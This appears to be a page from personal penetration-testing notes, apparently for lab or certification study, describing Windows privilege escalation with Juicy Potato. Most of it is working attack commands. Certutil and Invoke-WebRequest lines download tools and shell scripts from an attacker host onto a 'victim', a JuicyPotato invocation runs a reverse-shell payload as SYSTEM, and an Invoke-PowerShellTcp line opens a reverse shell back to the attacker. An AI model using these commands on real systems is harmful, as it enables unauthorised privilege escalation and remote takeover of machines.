 
#### Juicy Potato Manual
Transfer JuicyPotato.exe, test_clsid.bat and CLSID.list to the victim, in the same folder.

![[Python#Server]]

```batch - windows
certutil -urlcache -split -f http://$KALI/JuicyPotato.exe && certutil -urlcache -split -f http://$KALI/test_clsid.bat && certutil -urlcache -split -f http://$KALI/CLSID.list
```

```batch - windows
.\test_clsid.bat
```

Open result.log

Select anyone CLSID from this list, make sure it had higher authority (NT AUTHORITY\SYSTEM)

[[1._Reverse Shells (WIN)#MSFVenom]]

Transfer reverse.exe to Victim.

![[4._File Transfers#Certutil]]


![[1._rlwrap]]

```batch - windows
JuicyPotato.exe -l 1337 -p reverse.exe -t * -c {687e55ca-6621–4c41-b9f1-c0eddc94bb05}
```


---


```bash - kali
cp Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Mousepad shell-2.ps1, include the following at the bottom:

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 444
```

---

```bash - kali
mousepad shell.bat
```

```batch - windows
Invoke-WebRequest -Uri 'http://$KALI/shell-2.ps1' -OutFile shell-2.ps1
```

---

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/shell.bat' -OutFile shell.bat
```
